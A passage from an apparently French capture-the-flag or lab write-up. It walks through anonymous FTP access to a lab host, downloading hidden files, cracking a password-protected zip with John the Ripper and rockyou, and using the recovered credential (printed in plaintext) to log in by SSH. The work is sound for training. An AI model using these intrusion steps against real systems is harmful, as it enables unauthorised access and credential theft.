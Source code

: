 * * *

## Énumération finale

En reprennant le précédent scan de ``nmap`` on voit qu'il y a un **serveur FTP** qui autorise l'accès en **anonymous**.

On s'y connecte donc :

```bash
ftp 172.17.0.3
``` 

On donne comme login ``anonymous`` et on laisse le champ du mot de passe vide. On se retrouve connecté sur le serveur et on peut récupérer les fichiers suivants :

```
get pub/test
get pub/.folder/file.txt
get pub/.folder/.backup.zip
```

Attention aux réperoire cachés, il faut bien tout lister avec l'option ``-a``.

Les deux premiers fichiers ne nous donnent aucune information utile. Cependant l'archive **ZIP** est protégée par un mot de passe qu'on va s'empresser de cracker avec ``JohnTheRipper`` :

```bash
/opt/JohnTheRipper/run/zip2john .backup.zip > hash.txt
/opt/JohnTheRipper/run/john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```

**ATTENTION !** Si vous voulez récupérer l'archive directement sur votre machine vous pouvez le faire avec ``scp`` : ``scp -P 2222 bob@192.168.1.39:.backup.zip .``

Après quelques instants :

```
1234567890       (backup.zip/creds.txt)
```

On peut donc **unzip** l'archive et récupérer un fichier nommé ``creds.txt`` qui contient les éléments suivants :

```
donald:HBRLoCZ0b9NEgh8vsECS
```

* * *

## Shell basique final

Avec ces identifiants il est possible de se connecter en **SSH** sur la même machine (``172.17.0.3``) :

```bash
ssh donald@172.17.0.3
```

* * *
